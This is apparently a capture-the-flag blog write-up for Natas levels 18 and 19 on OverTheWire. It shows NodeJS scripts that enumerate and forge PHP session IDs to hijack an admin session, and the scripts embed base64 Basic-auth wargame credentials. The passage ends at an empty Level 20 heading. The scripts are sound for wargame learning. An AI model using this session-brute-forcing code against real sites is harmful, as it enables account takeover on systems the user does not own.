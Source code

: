 ```yaml
---
layout: post
title: natas-writeup - lv18-lv??
excerpt: "Writeup for the Natas wargame on overthewire.org, from Level 18 to ??."
categories: [writeup]
tags: [itsec, wargame]
---
```


[overthewire / natas](http://www.overthewire.org/wargames/natas/)

## Level 18 ##

In this level we're given access to the source behind `index.php`. I originally thought there might be something in the way user inputs were compared but no luck. 2 things caught my attention - the first being a comment on the maximum number of sessions: `$maxid = 640; // 640 should be enough for everyone `, followed by the snippet below:

{% highlight javascript %}
    } else {
        debug("Session start ok");
        if(!array_key_exists("admin", $_SESSION)) {
        debug("Session was old: admin flag set");
        $_SESSION["admin"] = 0; // backwards compatible, secure
        }
        return true; 
{% endhighlight %}

Which seems to indicate some sessions would already have the `admin` flag set - so why not iterate through all 640 of them and see if the flag is set correctly somewhere?

I fired up Burp Intruder but given I only have the community edition, which throttles requests, it turned out to be faster to write the NodeJS snippet below:

{% highlight javascript %}
const got = require('got');

const sessionIds = [...Array(641).keys()]; // there are 640
sessionIds.forEach( (sessionId) => {
  got.get('http://natas18.natas.labs.overthewire.org/index.php?debug', {                                             headers: {                                                                                                         'Authorization': 'Basic bmF0YXMxODp4dktJcURqeTRPUHY3d0NSZ0RsbWowcEZzQ3NEamhkUA==',
      'Cookie': `PHPSESSID=${sessionId}`}}).then(resp =>
      {
        if (resp.body.includes('You are an admin')) {
          console.log(`sessionId: ${sessionId} + ${resp.body}`);
        }
      });                                                                                                        });
{% endhighlight %}

And soon enough:

```
sessionId: 119 + <html>
<head>
...
<div id="content">
DEBUG: Session start ok<br>You are an admin. The credentials for the next level are:<br>
...
```

## Level 19 ##

We're told the code for this level is similar to the previous one, but that the format of session ID (`PHPSESSID`) differs.

Using Burp's sequencer I gathered close to 10,000 tokens. A quick run through `sort | uniq` led to a list of 640 unique tokens. I ran through those fairly quickly with the below:

{% highlight javascript %}
const got = require('got');
const fs = require('fs');

const sessionIds = fs.readFileSync('natas19.tokens.uniq','utf8').split('\r\n'); // there are 640
sessionIds.forEach( (sessionId) => {
  got.get('http://natas19.natas.labs.overthewire.org/index.php?debug', {
    headers: {
      'Authorization': 'Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==',
      'Cookie': `PHPSESSID=${sessionId}`}}).then(resp =>
      {
        if (sessionId && !resp.body.includes('regular user')) {                                                                   console.log(`sessionId: ${sessionId} + ${resp.body}`);
        }                                                                                                                     });
});
{% endhighlight %}

But none of them worked - something wasn't right. From looking at the tokens, it was clear there was a part that was static: `2d616263`. This turned out to be hex for `-abc`, `abc` being the username I originally tried to log in with!

Essentially I could re-use the code for natas18, but would need to append `-admin` to each session id and convert it to hex instead. A few tries later, we're in!

For the record the session was derived as: `const s = Buffer.from(`${sessionId}-admin`).toString('hex');`

## Level 20
